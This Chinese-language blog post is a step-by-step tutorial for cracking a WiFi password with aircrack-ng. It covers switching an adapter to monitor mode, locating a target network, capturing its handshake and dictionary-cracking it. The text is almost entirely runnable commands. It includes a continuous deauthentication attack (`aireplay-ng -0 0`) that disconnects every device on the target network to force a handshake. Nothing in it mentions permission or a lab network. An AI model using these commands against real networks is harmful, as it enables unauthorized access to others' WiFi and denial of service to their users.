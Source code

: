 ```yaml
---
title: aircrack破解wifi
date: 2019-03-31 16:11:01
tags:
---
```


aircrack-ng是处理无线的一个工具包，我们使用的是：

- airmon-ng
- airodump-ng
- aireplay-ng
- aircrack-ng

现在要做的是破解一个wifi密码，大体过程为：

1. 配置网卡
2. 探测wifi信息
3. 抓包
4. 破解

# 配置 #

用的环境是虚拟机kali，外面接了个ALFA网卡

1. 查看网卡

	执行`ifconfig`,找到了网卡 wlan0

2. 开启网卡

	`ifconfig wlan0 up`

3. 将网卡变成监听模式

	`airmon-ng start wlan0`
	
	然后发现网卡变成了wlan0mon，即监听模式的网卡，此时网卡配置完成

# 探测wifi信息 #

`airodump-ng wlan0mon`

抓包查看信息，在ESSID中找到要破解的wifi名字，记下对应的MAC地址(BSSID)和频道(channel,CH)

# 抓包 #

为了破解wifi，需要抓取对应wifi的握手包

`airodump-ng --bssid 地址 -c 频道 -w 存储文件名 wlan0mon`

这时候要等有设备连接wifi才会抓到，我们是不会等的，可以用拒绝服务攻击来强制让设备断开连接，不停的重连

新开一个shell

`aireplay-ng -0 0 -a 地址 wlan0mon`

- -0表示用接触认证攻击，后面的参数0表示不断发送攻击数据包
- -a表示AP的MAC
- -c参数可选，表示要被攻击的客户机MAC，不写的表示所有设备

此时看到抓包界面的右上角出现handshake：地址，即抓包完成了

# 破解 #

对抓到的包用字典进行破解

`aircrack-ng -w 字典 数据包.cap`